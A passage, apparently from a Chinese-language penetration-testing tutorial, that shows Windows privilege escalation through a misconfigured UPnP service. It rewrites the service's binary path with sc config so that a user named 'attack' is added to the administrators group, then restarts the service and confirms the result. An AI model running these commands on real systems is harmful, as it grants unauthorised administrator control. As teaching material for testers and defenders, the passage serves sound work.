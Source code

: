 ![操作步骤...](img/image_09_020.jpg)

1.  `attack`用户已成功创建；然而，它将是一个低级用户。让我们重新编写二进制路径。再次启动和停止 UPnP 活动，并获得管理员权限：

```
sc config upnphost binpath= "net localgroup administrators        attack/add"
      net stop upnphost
      net start upnphost

```

输出将如下截图所示：

![操作步骤...](img/image_09_021.jpg)

1.  让我们检查用户 attack 的用户详细信息，以验证他/她是否已成为管理员用户：![操作步骤...](img/image_09_022.jpg)
